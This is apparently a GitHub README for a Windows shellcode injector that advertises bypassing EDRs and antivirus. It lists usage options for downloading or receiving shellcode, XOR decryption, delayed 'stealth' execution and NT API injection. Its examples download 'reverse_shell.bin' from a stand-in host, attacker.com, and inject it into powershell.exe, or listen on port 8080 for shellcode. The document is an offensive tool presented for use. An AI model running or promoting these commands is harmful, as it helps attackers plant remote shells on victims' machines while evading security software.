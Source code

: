 # Windows NTAPI shellcode injector
Inject shellcode from memory to process using Windows NTAPI for bypassing EDRs and Antiviruses
- Download shellcode from URL
- Listen and wait for shellcode

## Usage

```shell
Usage:
        Injector.exe -u <URL>
        Injector.exe -p <PID/Process Name> -u <URL>
        Injector.exe -p <PID/Process Name> -l <LISTEN_PORT>
        Injector.exe -h
Options:
        -h       Show this menu.
        -u       URL to donwload shellcode from (Not listen mode).
        -p       PID/Process name to be injected (Optional).
        -l       Listen mode port (Not download mode).
        -k       XOR key to use for decryption.
        -s       Stealth mode - the decryption and injection will start after given seconds (Default 18).
        -m       Injection mode - NT or normal(VirtualAllocEx, WriteProcessMemory, CreateRemoteThread).
```

## Examples

Download and inject to powershell.exe
```shell
injector.exe -u http://attacker.com/reverse_shell.bin -p powershell.exe
```

Wait for connection on port 8080, receive shellcode and inject to owned notepad.exe
```shell
injector.exe -l 8080
```

 

